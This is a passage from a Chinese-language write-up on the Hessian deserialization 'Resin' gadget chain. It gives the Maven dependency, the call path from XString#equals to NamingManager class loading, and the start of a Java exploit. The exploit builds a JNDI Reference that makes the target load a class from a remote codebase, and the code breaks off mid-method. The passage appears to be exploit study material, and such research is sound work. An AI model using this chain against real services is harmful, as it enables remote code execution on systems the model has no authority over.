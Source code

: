 ## Resin

引入依赖，这里引入的依赖版本好像要正确，否则会报错显示`com.caucho.Naming`不存在，至于每个版本的对应，我也不清楚。：

```plain
<dependency>
            <groupId>com.caucho</groupId>
            <artifactId>resin</artifactId>
            <version>4.0.64</version>
        </dependency>
```

```plain
Xstring#equals()->
Qname#toString()->
ContinuationContext#composeName()->
ContinuationContext#getTargetContext()->
NamingManager#getContext()->
NamingManager#getObjectInstance()->
NamingManager#getObjectFactoryFromReference()->
loadClass()
```

exp:

```plain
package com.example.Hessian;

import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.caucho.hessian.io.SerializerFactory;
import com.caucho.naming.QName;
import com.sun.org.apache.xpath.internal.objects.XString;

import javax.naming.*;
import javax.naming.directory.DirContext;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.Base64;
import java.util.HashMap;
import java.util.Hashtable;

public class Resin {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException, NoSuchFieldException {
        String codebase="http://127.0.0.1:9999/";
        String clazz="siJdcpuR";

        Class<?> ccCl = Class.forName("javax.naming.spi.ContinuationContext");
        Constructor<?> ccCons = ccCl.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        ccCons.setAccessible(true);
        CannotProceedException cpe = new CannotProceedException();
        cpe.setResolvedObj(new Reference("siJdcpuR", clazz,codebase));
        Context ctx = (Context) ccCons.newInstance(cpe, new Hashtable<>());
        QName qName = new QName(ctx,"aiwin","aiwin1"); //_items要过for循环
        String unhash = unhash(qName.hashCode()); //将哈希值转换回原始数据的算法,放入到Xstring的值中,为了p.hash == hash
        XString xString = new XString(unhash);


```